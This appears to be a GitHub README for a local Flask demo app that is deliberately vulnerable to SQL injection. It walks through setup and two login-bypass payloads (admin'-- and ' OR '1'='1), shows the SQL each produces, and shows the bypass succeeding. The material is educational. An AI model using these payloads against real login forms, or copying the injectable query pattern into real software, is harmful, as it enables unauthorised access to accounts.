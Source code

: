 SQL Injection Demo Flask App

Step 1:-
        Make sure the following are installed on your system:
            -> Python 3.X
            -> Flask
                Install Via terminal
                >> pip install Flask

Step 2:-
        Save your code in a file, 
        eg: vuln_app.py

Step 3:-
        In your terminal, navigate to the folder where vuln_app.py is saved, then run:
        >> python vuln_app.py

        You should see output like:
        >> *Running on http://127.0.0.1.5000/

Step 4:-
        Open your web browser and go to:
        >>http://127.0.0.1:5000/login?username=admin&password=adminpass
        
        This will show:
        ✅ Login successful!
            Username: admin
            Password: adminpass

Step 5:-
        Test First Payload
        URL:-
                http://127.0.0.1:5000/login?username=admin'--&password=test
                
        This builds the SQL query:
                SELECT * FROM users WHERE username = 'admin'--' AND password = 'test'
        Result :-
            ✅ Login successful!
                Username: admin
                Password: adminpass

        Test Second Payload
        URL:-
                http://127.0.0.1:5000/login?username=admin' OR '1'='1&password=test

        This becomes:-
                SELECT * FROM users WHERE username = 'admin' OR '1'='1' AND password = 'test'
        Result :-
            ✅ Login successful!
                Username: admin
                Password: adminpass

Step 6:-
        If you mess up the database, just stop the server and restart it:
        >> python vuln_app.py

        This will recreate the example.db with a fresh user:
            Username: admin  
            Password: adminpass

OUTPUT:-

![Image](https://github.com/user-attachments/assets/84d1f49b-b6ed-492f-8b58-4c03f5ac8302)
![Image](https://github.com/user-attachments/assets/bd021438-789d-43af-9674-33faa1bfb750)
![Image](https://github.com/user-attachments/assets/06b0af93-ebfa-402f-bf52-00a6b5e8f5b1)